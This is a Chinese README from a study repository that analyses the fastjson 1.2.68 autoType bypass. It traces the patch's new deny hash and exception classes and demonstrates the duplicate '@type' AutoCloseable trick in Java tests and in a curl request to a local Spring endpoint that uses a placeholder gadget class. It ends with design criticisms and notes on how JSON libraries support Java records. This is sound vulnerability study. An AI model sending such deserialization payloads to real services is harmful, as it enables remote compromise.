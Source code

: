 fastjson-study

## 背景

fastjson 1.2.68 版本爆出高危漏洞，本次通过寻找改漏洞触发机制来学习 fastjson 的安全机制

[安全漏洞通告](https://github.com/alibaba/fastjson/wiki/security_update_20200601)

## bug 追踪

### 查看 bug 如何被修复

![img.png](./screenshots/img1.png)

升级到 *.sec10 可解决问题

### 下载代码查看修改点

1.2.8 到 1.2.8.sec10 改动较小，增加了一个 denyHashCodes，三个 exceptClass (并将 exceptClass 替换为 exceptHash)

下载 source.jar 解压获取源码 (已解压放到 fastjson-source-code 文件夹下)

[fastjson-1.2.8-sources.jar](https://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.8/fastjson-1.2.8-sources.jar)

[fastjson-1.2.8.sec10-sources.jar](https://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.8.sec10/fastjson-1.2.8.sec10-sources.jar)

1. 在 ParserConfig.denyHashCodes 中添加了 0xD59EE91F0B09EA01L

![img.png](./screenshots/img2.png)

通过广大网友的暴力破解 [fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)

得到 0xD59EE91F0B09EA01L 为 oracle.jms.AQ

但黑名单需要开启 autoType 才能使用，所以该重大漏洞大概率与 oracle.jms.AQ 无关

2. exceptClass 替换为 exceptHash 并添加了3个

![img.png](./screenshots/img3.png)

通过源码分析，使用 TypeUtils.fnv1a_64 遍历 java 标准库的类名得到新增加的 3个 exceptHash 为

- java.lang.Runnable
- java.lang.Readable
- java.lang.AutoCloseable

能绕过 autoType 限制大概率于这三个类有关

# 如何绕过 autoType 限制

在网上查阅资料得到可以通过两个 @type 标记绕过 autoType 限制，具体操作如下

```java
//see FastjsonTest.test1
//AutoCloseableBadCode 实现了 AutoCloseable 接口
String jsonString = "{\"@type\":\"java.lang.AutoCloseable\",\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
Object result = JSON.parse(jsonString);
log.info("result className {}", result.getClass().getName());
// ==> result className  io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode
```

json 串中有两个相同的 key @type 反序列化时不会报错吗？答案时不会。

```java
//see FastjsonTest.test1
log.info("result {}", JSON.parseObject("{\"a\": 1, \"a\":2}"));
// ==> result {"a":2}
```

没有开启 autoType 时，什么情况下可以使用 @type ?

通过分析 ParserConfig.checkAutoType 的代码得:

1. 指定期望类，且 @type 为期望类或其子类

```java
//set FastjsonTest.test6
String jsonString = "{\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
Object result = JSON.parseObject(jsonString, AutoCloseable.class);
log.info("result className {}", result.getClass().getName());
// ==> result className io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode
```

2. 类被 fastjson 反序列化过 (被 TypeUtils 缓存过)

```java
//see FastjsonTest.test7
String jsonString = "{\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
//被反序列过
JSON.parseObject("{}", AutoCloseableBadCode.class);
Object result = JSON.parseObject(jsonString);
log.info("result className {}", result.getClass().getName());
```

添加的三个期望类中只有 AutoCloseable 被 TypeUtils 缓存过，所以能绕过 autoType 的高危漏洞多半与其有关

通过代码分析，两个 @type 中，在效果上等价于:

```java
//运行到第一个 @type，告知 fastjson 要反序列 AutoCloseable，AutoCloseable 被缓存过，允许反序列化，期望类变更为 AutoCloseable
JSON.parseObject"{\"@type\":\"java.lang.AutoCloseable\"}");
//运行到第二个 @type，告知 fastjson 要反序列 AutoCloseableBadCode, AutoCloseableBadCode 是 AutoCloseable 的实现，允许反序列化，期望类变更为 AutoCloseableBadCode
Object result = JSON.parseObject("\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}", AutoCloseable.class);
```

绕过此次漏洞是由该方式造成的，那么该类需要有如下特征

1. 拥有公开的构造方法且非抽象类
2. getXXX 或 setXXX 或构造方法能触发危险操作
3. 实现 AutoCloseable
4. 不在 fastjson 的黑名单中
5. 在 java 标准库中或常用的第三方库中

# 利用漏洞的方法

以下构造了一个相对比较常见的常见

条件: 
1. 使用 spring mvc，且反序列化方式使用 fastjson (常见)

```java
@Bean
public HttpMessageConverter configureMessageConverters() {
    FastJsonHttpMessageConverter converter = new FastJsonHttpMessageConverter();
    FastJsonConfig config = new FastJsonConfig();
    converter.setFastJsonConfig(config);
    converter.setDefaultCharset(StandardCharsets.UTF_8);
    List<MediaType> mediaTypeList = new ArrayList<>();
    mediaTypeList.add(MediaType.APPLICATION_JSON);
    converter.setSupportedMediaTypes(mediaTypeList);
    return converter;
}
```

2. 拥有一个使用 @RequestBody 的 Controller (常见)

```java
@PostMapping("case1")
public TestCase1Vo test1(@RequestBody TestCase1Request request) {
    TestCase1Vo vo = new TestCase1Vo();
    vo.setMessage(request.getMessage());
    return vo;
}
```

3. 拥有满足高危漏洞的类(比较难找，这里用 AutoCloseableBadCode 代替)

正常请求:

```bash
curl --location --request POST 'http://127.0.0.1:8080/test/case1' --header 'Content-Type: application/json' --data-raw '{"msg": "data1"}'
```

触发漏洞请求

```bash
curl --location --request POST 'http://127.0.0.1:8080/test/case1' --header 'Content-Type: application/json' --data-raw '{"data": {"@type":"java.lang.AutoCloseable","@type":"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode","name":"test"}, "msg": "test"}'
```

此时就会执行 AutoCloseableBadCode.setName (目标类可以没有 setData 和 getData 方法)

# 总结

个人认为 fastjson 不太合理的点:

1. 缺少基本参数校验: 同一层级出现两个相同 key 不属于标准 json 格式，应当报错
2. API未按危险等级划分: JSON.parse、JSON.parseObject 都能在默认配置下对 @type 生效，应当提供默认不支持 @type 的方法(safe 模式)
3. 指定期望类情况下依旧下不对是否有该参数进行校验
4. 用户可能会在不知情的情况下对某些类进行反序列化，被反序列过的类再次反序列化校验不严格


# json 杂谈

## 对java 16 record 的支持

### 序列化支持

fastjson 不支持 record 序列化

gson、jackson 支持 record 序列化

### 反序列化支持

gson 通过反射字段赋值，导致不支持 record (当被反序列化对象没有无参构造方法时，gson 可以通过 unsafe 方法创建对象)。

fastjson 遇到没有无参构造方法时，自动找寻参数最长的构造方法进行反序列化。

jackson 通过对 record 单独适配对齐进行支持, 判断其是否继承 Record

```java
 public static boolean isRecordType(Class<?> cls) {
    Class<?> parent = cls.getSuperclass();
    return (parent != null) && "java.lang.Record".equals(parent.getName());
}
```

### 结论

仅 jackson 对 record 完美支持